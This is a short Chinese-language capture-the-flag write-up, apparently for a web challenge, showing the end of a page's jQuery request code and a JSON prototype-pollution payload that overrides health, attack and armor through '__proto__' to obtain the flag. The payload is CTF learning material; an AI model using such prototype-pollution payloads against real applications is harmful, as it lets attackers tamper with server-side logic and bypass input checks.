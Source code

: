 ```js
                        health: parseInt($("#health").val()),
                        attack: parseInt($("#attack").val()),
                        armor: parseInt($("#armor").val()),
                    }
                }),
                success: function (res) {
                    if (res.status === 200) {
                        alert(res.result);
                    } else if(res.status === 403){
                        alert("Invalid input, please try again");
                    } else if(res.status === 500){
                        alert("Json data only!");
                    }
                },
            })
        })
    });
</script>
</body>
</html>
```

注意看注释：**如果你将某一项属性值设为0，你将没有这项属性**

猜测是原型链污染，构造payload：

```js
{"attributes":{"health":0,"attack":0,"armor":0,"__proto__":{"health":999,"attack":999,"armor":999}}}
```

成功拿到flag

![image-20250720095911021](assets/image-20250720095911021.png)



